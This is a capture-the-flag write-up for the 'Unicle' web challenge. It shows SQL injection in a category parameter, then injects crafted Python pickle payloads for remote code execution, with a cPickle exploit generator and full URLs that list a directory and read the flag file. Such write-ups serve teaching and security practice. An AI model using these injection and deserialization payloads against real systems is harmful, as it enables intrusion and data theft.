




# Unicle (Web, 200pts)

## Problem

OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!

http://54.84.124.93/



## Solution

After opening url, there's a simple HTML table with all stored objects. There's only one parameter I could manipulate - Category id (cat).

### Phase one - SQL Injection

Quick research revealed that 'cat' parameter is vulnerable to SQL Injection. Valid payload should contain standard characters used in attacks based on SQLi (like + as space, /**/ as comment and so on).

First payload I've used and was fine, looks like this one (I used four columns in _union_ statement, because displayed HTML table had four columns and I've assumed four is good number to start from :) ):

```bash
http://54.84.124.93/?cat=2%2b1+and+1=1+union+select+1,2,3,4/**/
```

After some attempts to read eg. MySQL version via _version()_ I've realized that this is not MySQL database and one of the payload returned such result in the browser:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22aaa%22,4/**/
```



That was something new for me, so I've tried some other payloads:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22Magic%20Box%22,4/**/
```

and the result in first row in column Value was: "could not find MARK", also this payload:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22{aa,bb}%22,4/**/
```

returned in the same place error message "invalid load key, '{'."

Quick session with Google told me that such error messages points I'm playing with Pickle Python module, which is used to serialization and deserialization of Python objects (https://docs.python.org/3.4/library/pickle.html). Two, maybe three blog posts later (linked at the end of this writeup) I had, more or less, some idea how can I use this vector to get the flag.


### Phase two - Remote Code Execution via Pickle module

As I've assumed that third column contains serialized Python object, which is deserialized on the backend side, I've started to create and inject simple exploits to get some valuable response.


I've used for this simple Pickle exploit generator (from Nelson Elhage's blog - https://twitter.com/nelhage - linked below):


```python
#!/usr/bin/python
import os
import cPickle
import base64

# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        return (eval, ("os.system('ls -l')",))

shellcode = cPickle.dumps(Exploit())
print shellcode
```


Generated exploit looks like this:


```bash
$ ./cpicke_exploit.py 
c__builtin__
eval
p1
(S"os.system('ls -l')"
p2
tp3
Rp4
.

```

To get this exploit working in injection payload, I had to use _%0A_ as a separator between every line of above output (to be sure that Pickle deserializes payload in right way).

Here's an example how to get result of _ls -l_ command:

```bash
http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.listdir%28%27var/www%27%29%27%0AtR.%22,4/**/
```

And a result in Burp Repeater:




So there's a _flag_ file directly in _/var/www_ directory, so let's get it!


```bash

http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.popen%28%27cat%20/var/www/flag%27%29.readlines%28%29%27%0AtR.%22,4/**/
```

And the flag is:




## Summary

I've spent a lot of time on this task, because I had no experience with web application based on used technologies - as you can see _vulnerable.py_ file (which I saved just by curiosity, how the code looks like) - there's a **Flask** Python framework and **SQLAlchemy** simple ORM for Flask. Also I've never exploit Pickle code injection vulnerability in the wild before - so I've learnt a lot while working on this task. 


## Links

Explaining and exploiting deserialization vulnerability with Python       
https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html            

Exploiting Misuse of Python's "Pickle"          
https://blog.nelhage.com/2011/03/exploiting-pickle/

Playing with Pickle Security    
https://lincolnloop.com/blog/playing-pickle-security/

Flask			
http://flask.pocoo.org/

SQLAlchemy		
